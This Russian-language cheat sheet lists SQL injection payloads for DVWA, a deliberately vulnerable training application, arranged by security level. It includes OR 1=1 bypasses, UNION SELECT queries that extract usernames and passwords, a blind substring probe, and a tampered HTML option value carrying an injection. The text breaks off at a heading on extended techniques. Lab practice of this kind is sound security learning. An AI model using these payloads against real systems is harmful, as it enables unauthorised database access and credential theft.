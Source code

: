 | Уровень    | Особенности                                                       | Как обойти                          |
| ---------- | ----------------------------------------------------------------- | ----------------------------------- |
| **Low**    | Нет фильтрации, SQL строится напрямую                             | Ввод `1' OR 1=1#`, `UNION SELECT`   |
| **Medium** | Нет текстового поля, но данные можно подменить в HTML             | Подмена `<option value>` вручную    |
| **High**   | Используется `mysqli_real_escape_string` или частичная фильтрация | `UNION SELECT ...#`, возможно с XSS |

---

Ниже полный набор по SQL Injection в DVWA:

---

# 📄 Готовый список SQL-инъекций по уровням DVWA

## 🔓 **Low** (уязвим напрямую)

```sql
1' OR '1'='1' -- 
1' OR 1=1#
' UNION SELECT user, password FROM users#
' AND (SELECT SUBSTRING(password,1,1) FROM users LIMIT 1) = '5' -- 
```

---

## ⚠️ **Medium** (выпадающий список — но HTML можно подменить)

В HTML меняем значение `<option>`:

```html
<option value="1' UNION SELECT user, password FROM users#">Hacked</option>
```

Либо через devtools (F12 → Elements).

---

## 🔒 **High** (экранирование или фильтрация)

Работают инъекции при корректной структуре:

```sql
1' UNION SELECT user, password FROM users#
1' AND 1=1#
```

Если защита слабая — можно обойти `mysqli_real_escape_string`.

---

# 🧪 Расширенные техники
